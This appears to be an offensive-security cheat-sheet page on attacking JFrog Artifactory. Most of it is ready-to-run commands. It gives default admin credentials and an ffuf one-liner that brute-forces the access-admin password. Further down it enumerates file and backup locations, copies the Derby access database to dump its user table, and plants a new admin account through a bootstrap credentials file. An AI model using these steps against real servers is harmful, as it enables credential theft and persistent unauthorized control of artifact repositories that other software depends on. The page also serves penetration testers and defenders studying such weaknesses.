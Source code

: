# Artifactory

* [https://keramas.github.io/2020/04/03/jfrog-ssrf-vulnerability.html](https://keramas.github.io/2020/04/03/jfrog-ssrf-vulnerability.html)

{% hint style="info" %}
Default credentials 👉🏻 `admin:password`.
{% endhint %}




## Brute Force access-admin

* [https://jfrog.com/knowledge-base/how-to-change-the-default-password-for-access-admin-user/](https://jfrog.com/knowledge-base/how-to-change-the-default-password-for-access-admin-user/)
* [https://github.com/ffuf/ffuf-scripts](https://github.com/ffuf/ffuf-scripts)

Brute force access-admin's password with [ffuf](https://github.com/ffuf/ffuf):

```
$ echo -n access-admin > usernames.txt
$ ./ffuf_basicauth.sh usernames.txt passwords.txt | ffuf -c -u http://192.168.1.11:8081/artifactory/api/v1/system/health -w -:AUTH -H 'Authorization: Basic AUTH' -H 'Content-Type: application/json' -fc 403
```




## Enumeration

Spot running processes:

```
$ ps aux | grep artifactory
```

Files location:

```
$ find /opt/jfrog/artifactory/var/data/artifactory/filestore
```

Backup location:

```
$ find /opt/jfrog/artifactory/var/backup/access
```




## Compromise Database

```
$ mkdir /tmp/dbcopy
$ sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/dbcopy
$ sudo chmod 755 /tmp/dbcopy/derby
$ sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
ij> connect 'jdbc:derby:/tmp/dbcopy/derby';
ij> select * from access_users;
```




## Add Admin Account

```
$ sudo bash -c "echo 'snovvcrash*=Passw0rd!' > /opt/jfrog/artifactory/var/etc/access/bootstrap.creds"
$ sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
$ sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
$ sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
$ sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```

